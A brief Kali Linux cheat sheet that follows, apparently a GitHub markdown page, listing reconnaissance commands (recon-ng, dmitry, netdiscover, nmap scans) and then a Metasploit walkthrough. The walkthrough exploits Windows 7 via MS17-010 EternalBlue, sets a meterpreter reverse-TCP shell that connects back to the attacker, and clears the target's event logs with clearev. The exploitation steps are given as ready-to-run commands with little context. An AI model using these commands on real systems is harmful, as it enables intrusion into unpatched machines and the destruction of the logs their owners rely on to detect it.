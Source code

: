 ## Kali Linux
### Information Gathering and Reconnaissance
#### Use Recon-NG Framework:
```
> recon-ng
> show modules
> use module-name
```
#### Use Dmitry
```
> dmitry -s site.com
```
#### Use Netdiscover to find IPs and open ports on LAN
```
> netdiscover
```
#### Use Nmap
```
> nmap -v -A site.com
```
Find open ports:
```
> nmap -r -v 192.168.1.5
```
Find what services are running on open ports:
```
> nmap -sS -Pn -A 192.168.1.5
```
#### Use Metasploit for Pintesting Windows 7
```
  // Get open ports:
> nmap -sS -sV put-target-ip-here-or-a-range -A -O -v
> msfconsole
  // use MS17010 for Windows 7: 
> search MS17-010
> use exploit/windows/smb/ms17_010_eternalblue
  // or
> use exploit/windows/smb/ms17_010_psexec
> show payloads
> set payload windows/x64/meterpreter/reverse_tcp
> show options
> set LHOST put-your-ip-here
> set LPORT 4444
> set RHOST put-target-ip-here
> set RPORT 445
> exploit
```
if you get meterpriter bash, it means you are in the target file sistem. Use mterpreter commands to navigate around.

To clear logs on the target system (via meterpreter):
```
> clearev (clear log)
```

